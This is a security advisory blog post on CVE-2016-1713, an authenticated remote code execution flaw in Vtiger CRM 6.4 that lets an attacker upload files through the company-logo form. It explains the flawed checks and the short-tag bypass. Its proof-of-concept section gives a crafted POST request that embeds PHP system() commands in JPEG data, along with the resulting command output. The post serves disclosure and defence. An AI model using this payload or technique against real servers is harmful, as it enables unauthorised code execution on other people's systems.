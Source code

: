 ```yaml
---
layout: post
published: true
title: "Vtiger CRM 6.4 Authenticated Remote Code Execution (CVE-2016-1713)"
tags: [cve, rce, vtiger, web]
category: Vulnerabilities
excerpt: "Vtiger CRM version 6.4 is still vulnerable to Authenticated Remote Code Execution. Related to, yet different from CVE-2015-6000."
image:
  feature: banner-vtiger2.jpg
---
```


## Table of Contents

1. [Summary](#summary)
2. [Vulnerability Details](#details)
3. [Exploitation / Proof of Concept](#poc)
4. [Timeline](#timeline)
5. [See Also](#seealso)


## 1. Summary<a id="summary"></a>

Vtiger CRM  <https://www.vtiger.com/open-source/> is a CRM application.

Vtiger CRM version 6.4 (“Open Source” branch; released on 2015-10-16) is vulnerable to Authenticated Remote Code Execution. This vulnerability is different than [CVE-2015-6000](/2015/09/vtiger-crm-authenticated-rce-cve-2015-6000.html) (in fact it is a result of an insufficient fix for CVE-2015-6000).


## 2. Vulnerability Details<a id="details"></a>

Vtiger CRM allows for the upload of a "company logo" from within the administrative interface. The corresponding functionality can be accessed on the "CRM Settings" page (Settings -> CRM Settings -> Templates -> Company Details -> "Edit" button; (<.../index.php?parent=Settings&module=Vtiger&view=CompanyDetails>).

Multiple flaws in the Settings_Vtiger_CompanyDetailsSave_Action class allow attackers to upload files with (almost) arbitrary contents, including, but not limited to, PHP code passing commands to the underlying operating system.

The previously mentioned vulnerability, CVE-2015-6000, was partially caused by an insufficient file type check, relying on the MIME type ("Content-Type") sent by the client:

{% highlight php %}
    (Source file:  vtigercrm/modules/Settings/Vtiger/actions/CompanyDetailsSave.php)
<?
    [...]
    class Settings_Vtiger_CompanyDetailsSave_Action extends Settings_Vtiger_Basic_Action {
    [...]

    $logoDetails = $_FILES['logo'];
    $fileType = explode('/', $logoDetails['type']);
    $fileType = $fileType[1];
    if (!$logoDetails['size'] || !in_array($fileType, Settings_Vtiger_CompanyDetails_Model::$logoSupportedFormats)) {
        $saveLogo = false;
    } 
    [...]
?>
{% endhighlight %}

In an attempt to mitigate the resulting security issues, the following "mime type check" was added with a Vtiger CRM 6.3 security patch (released on 2015-10-06) and Vtiger CRM 6.4 (released on 2015-10-16):

{% highlight php %}
<?
    [...]
    //mime type check
    $mimeType = mime_content_type($logoDetails['tmp_name']);
    $mimeTypeContents = explode('/', $mimeType);
    if (!$logoDetails['size'] || $mimeTypeContents[0] != 'image' || !in_array($mimeTypeContents[1], Settings_Vtiger_CompanyDetails_Model::$logoSupportedFormats)) {
        $saveLogo = false;
    } 
    [...]
?>
{% endhighlight %}

This check relies on the result of the PHP function [mime_content_type()](http://php.net/manual/en/function.mime-content-type.php), which is better than relying solely on the MIME type sent by the client's browser. However, an attacker may choose to embed malicious PHP code within a valid image file, for example as EXIF data of a JPEG file. The upload of such a file is possible because of an insufficient check for PHP code inside the uploaded file:

{% highlight php %}
    (Source file:  vtigercrm/modules/Settings/Vtiger/actions/CompanyDetailsSave.php)
<?
    [...]
    // Check for php code injection
    $imageContents = file_get_contents($_FILES["logo"]["tmp_name"]);
    if (preg_match('/(<\?php?(.*?))/i', $imageContents) == 1) {
        $saveLogo = false;
    }
    [...]
?>
{% endhighlight %}

Not only can this check be circumvented by using PHP short tags instead of “<?php “. It also provides no protection whatsoever against uploads of code written in scripting languages other than PHP, which, depending on the system configuration, may or may not be executable. 

Once the server has received the attacker's JPEG file, mime_content_type() will process it, correctly consider it to be a valid image file, and return the MIME type "image/jpeg" -- which passes Vtiger's "mime type check".

Because Vtiger allows users to freely choose the name of an uploaded file, even if the file's extension does not match the previously determined MIME type, an attacker can upload the image file with a ".php" extension.

Vtiger CRM then saves the uploaded file's contents with the client-specified file name in the publicly accessible "test/logo/" directory:

{% highlight php %}
    (Source file: modules/Settings/Vtiger/models/CompanyDetails.php)
<?
    [...]
    class Settings_Vtiger_CompanyDetails_Model extends Settings_Vtiger_Module_Model {
    [...]
    var $logoPath = 'test/logo/';
    [...]
    public function saveLogo() {
        $uploadDir = vglobal('root_directory'). '/' .$this->logoPath;
        $logoName = $uploadDir.$_FILES["logo"]["name"];
        move_uploaded_file($_FILES["logo"]["tmp_name"], $logoName);
        copy($logoName, $uploadDir.'application.ico');
    }
    [...]
?>
{% endhighlight %}


Combining these flaws, an attacker can transfer arbitrary code to the web server by

* providing a permitted MIME type (e.g. "Content-Type: image/jpeg"), 
* embedding the code within a valid image file, 
* avoiding the string “<?ph” within the code, and
* choosing a file name with an extension that will make the web server execute the embedded code.

The code can then be run by accessing the location of the uploaded file ("&lt;Vtiger URL>/test/logo/&lt;attacker-specified file name>").


## 3. Exploitation / Proof of Concept<a id="poc"></a>

Through a specially crafted HTTP-POST request,  an image file containing PHP code is stored on the server hosting the Vtiger CRM software: 

{% raw %}
    POST /index.php HTTP/1.1
    Host: [...]
    Cookie: [...]
    Connection: keep-alive
    Content-Type: multipart/form-data; boundary=---------------------------51732462825208
    Content-Length: 4102

    -----------------------------51732462825208
    Content-Disposition: form-data; name="__vtrftk"

    [...]
    -----------------------------51732462825208
    Content-Disposition: form-data; name="logo"; filename="3.php"
    Content-Type: image/jpeg

    ÿØÿà JFIF H H  ÿí xPhotoshop 3.0 8BIM      \ x W<? system('id; uname -a; /sbin/ifconfig -a'); system('cat ../../vtigerversion.php'); ?>ÿÛ

    [...]

    -----------------------------51732462825208
    Content-Disposition: form-data; name="address"
    [...]
{% endraw %}

The resulting PHP file can then be accessed at &lt;Vtiger URL&gt;/test/logo/3.php , which will execute the given commands and display their output:

{% raw %}
    ÿØÿà JFIF H H  ÿí xPhotoshop 3.0 8BIM      \ x Wuid=33(www-data) gid=33(www-data) groups=33(www-data)
    Linux [...] 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
    [...]
{% endraw %}

## 4. Timeline<a id="timeline"></a>

2015-10-21 Vulnerability reported to Vtiger.  
2015-10-21 Vtiger acknowledges receipt.  
2016-01-12 Public disclosure.  
2016-01-12 MITRE assigns CVE-2016-1713.  

## 5. See Also<a id="seealso"></a>

* CVE-2016-1713 at cve.mitre.org: <http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1713>
* Description of CVE-2015-6000: <http://b.fl7.de/2015/09/vtiger-crm-authenticated-rce-cve-2015-6000.html>
